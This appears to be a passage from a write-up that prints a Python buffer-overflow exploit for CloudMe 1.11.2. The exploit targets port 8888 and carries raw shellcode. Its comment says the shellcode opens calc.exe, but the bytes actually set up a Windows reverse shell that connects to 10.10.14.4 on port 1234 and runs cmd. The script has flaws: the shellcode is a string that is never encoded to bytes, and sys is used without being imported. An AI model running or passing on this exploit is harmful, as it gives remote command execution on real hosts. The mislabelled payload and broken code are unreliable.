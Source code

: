 Changed the whole python thing with this `C` formatted shellcode. For some reason python shellcode created by msfvenom have some issues like both C and Python Shellcode seems different totally. And Python didn't worked for me. So I tried with C shellcode this time.

```bash
# Exploit Title: CloudMe 1.11.2 - Buffer Overflow (PoC)
# Date: 2020-04-27
# Exploit Author: Andy Bowden
# Vendor Homepage: https://www.cloudme.com/en
# Software Link: https://www.cloudme.com/downloads/CloudMe_1112.exe
# Version: CloudMe 1.11.2
# Tested on: Windows 10 x86

#Instructions:
# Start the CloudMe service and run the script.

import socket

target = "127.0.0.1"

padding1   = b"\x90" * 1052
EIP        = b"\xB5\x42\xA8\x68" # 0x68A842B5 -> PUSH ESP, RET
NOPS       = b"\x90" * 30

#msfvenom -a x86 -p windows/exec CMD=calc.exe -b '\x00\x0A\x0D' -f python
shellcode=("\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b\x50\x30"
"\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff"
"\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2\xf2\x52"
"\x57\x8b\x52\x10\x8b\x4a\x3c\x8b\x4c\x11\x78\xe3\x48\x01\xd1"
"\x51\x8b\x59\x20\x01\xd3\x8b\x49\x18\xe3\x3a\x49\x8b\x34\x8b"
"\x01\xd6\x31\xff\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf6\x03"
"\x7d\xf8\x3b\x7d\x24\x75\xe4\x58\x8b\x58\x24\x01\xd3\x66\x8b"
"\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24"
"\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f\x5f\x5a\x8b\x12\xeb"
"\x8d\x5d\x68\x33\x32\x00\x00\x68\x77\x73\x32\x5f\x54\x68\x4c"
"\x77\x26\x07\xff\xd5\xb8\x90\x01\x00\x00\x29\xc4\x54\x50\x68"
"\x29\x80\x6b\x00\xff\xd5\x50\x50\x50\x50\x40\x50\x40\x50\x68"
"\xea\x0f\xdf\xe0\xff\xd5\x97\x6a\x05\x68\x0a\x0a\x0e\x04\x68"
"\x02\x00\x04\xd2\x89\xe6\x6a\x10\x56\x57\x68\x99\xa5\x74\x61"
"\xff\xd5\x85\xc0\x74\x0c\xff\x4e\x08\x75\xec\x68\xf0\xb5\xa2"
"\x56\xff\xd5\x68\x63\x6d\x64\x00\x89\xe3\x57\x57\x57\x31\xf6"
"\x6a\x12\x59\x56\xe2\xfd\x66\xc7\x44\x24\x3c\x01\x01\x8d\x44"
"\x24\x10\xc6\x00\x44\x54\x50\x56\x56\x56\x46\x56\x4e\x56\x56"
"\x53\x56\x68\x79\xcc\x3f\x86\xff\xd5\x89\xe0\x4e\x56\x46\xff"
"\x30\x68\x08\x87\x1d\x60\xff\xd5\xbb\xf0\xb5\xa2\x56\x68\xa6"
"\x95\xbd\x9d\xff\xd5\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb"
"\x47\x13\x72\x6f\x6a\x00\x53\xff\xd5")

overrun = b"C" * (1500 - len(padding1 + NOPS + EIP + shellcode))	

buf = padding1 + EIP + NOPS + shellcode + overrun 

try:
	s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	s.connect((target,8888))
	s.send(buf)
except Exception as e:
	print(sys.exc_value)
```

